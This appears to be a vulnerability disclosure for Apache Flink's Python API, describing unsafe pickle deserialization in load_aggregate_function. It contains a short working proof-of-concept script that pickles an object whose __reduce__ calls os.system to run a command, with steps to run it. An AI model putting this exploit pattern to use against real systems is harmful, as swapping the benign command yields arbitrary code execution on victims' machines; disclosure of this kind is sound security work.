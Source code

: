 # Description
Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```python
import os
import pickle
#os.system('pip3 install apache-flink')
from pyflink.fn_execution import operation_utils
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
dumps = pickle.dumps(ArbitraryCode())
operation_utils.load_aggregate_function(dumps)
```
* `pip3 install apache-flink`
* `python3 exploit.py`
